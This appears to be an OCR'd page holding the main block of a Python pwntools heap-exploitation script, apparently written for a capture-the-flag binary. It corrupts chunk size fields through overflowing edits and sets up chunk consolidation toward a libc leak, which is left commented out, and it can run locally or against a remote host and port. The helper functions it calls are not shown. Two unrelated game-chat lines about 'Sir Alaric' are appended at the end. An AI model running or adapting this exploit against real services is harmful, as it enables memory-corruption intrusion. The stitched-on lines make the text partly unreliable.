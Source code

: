 ```python
if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    parser.add_argument('-b', '--binary', help='local binary path', required=True)
    parser.add_argument('-l', '--libc', help='local libc path', required=True) # remove if libc not needed

    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary, env={'LD_LIBRARY_PATH': os.path.dirname(args.libc)})
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(args.binary)
    libc = ELF(args.libc)
    rop = ROP(binary)

    create_plan(b'A'*24)
    create_plan(b'A'*0x508)
    create_plan(b'A'*24)
    create_plan(b'A'*0x4c8)
    create_plan(b'A'*24)
    gdb.attach(p)
    input('Start exploit')
    delete_plan(1)
    edit_plan(0, b"A"*24 + p16((0x550 & 0xfffc) | 1))
    input('Start exploit')
    edit_plan(3, b'A'*0x10 + p64(0x550 & 0xfffffffc) )
    input('Start exploit')
    size = 0x538
    create_plan(b"A"*0x548)
    delete_plan(3)
    #edit_plan(1, b"A"*0x508)
    #leak = u64(show_plan(1)[0x518:].ljust(8, b"\x00"))
    #print('pointer into main arena = ',hex(leak))

    #libc.address = leak - 0x3EBC40
    #libc.address = leak - libc.symbols["__malloc_hook"] + 0x10
    #print('libc base = ',hex(libc.address))


    p.interactive()
```


[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!